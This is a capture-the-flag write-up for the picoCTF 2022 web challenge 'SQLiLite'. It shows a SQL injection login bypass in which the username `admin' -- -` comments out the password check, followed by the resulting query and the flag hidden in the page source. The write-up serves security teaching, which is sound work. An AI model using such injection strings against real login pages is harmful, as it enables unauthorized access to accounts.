

# SQLiLite

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Points: 300
Tags: picoCTF 2022, Web Exploitation, sql
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Author: Mubarak Mikail
 
Description:
Can you login to this website?

Try to login here.
 
Hints:
1. admin is the user you want to login as.
```

Challenge link: [https://learn.cylabacademy.org/library/304](https://learn.cylabacademy.org/library/304)

## Solution

Browse to the web site at `http://saturn.picoctf.net:51525/` and we find a login portal



If we try to login with `admin:admin` we get the following error message

```bash
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

Login failed.
```

Setting the username to `admin' -- -` and leaving the password blank we "end" the SQL-statement and comment out the rest of the code.

The result is:

```text
username: admin' -- -
password: 
SQL query: SELECT * FROM users WHERE name='admin' -- -' AND password=''

Logged in! But can you see the flag, it is in plainsight.
```

Press `CTRL + U` or right-click anywhere on the background and select `View page source` to see the flag in the HTML-source.

```html
<pre>username: admin&#039; -- -
password: 
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; -- -&#039; AND password=&#039;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{<REDACTED>}</p>
```

For additional information, please see the references below.

## References

- [Select (SQL) - Wikipedia](https://en.wikipedia.org/wiki/Select_(SQL))
- [SQL - Wikipedia](https://en.wikipedia.org/wiki/SQL)
- [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection - PortSwigger](https://portswigger.net/web-security/sql-injection)
- [SQL injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [SQL injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)
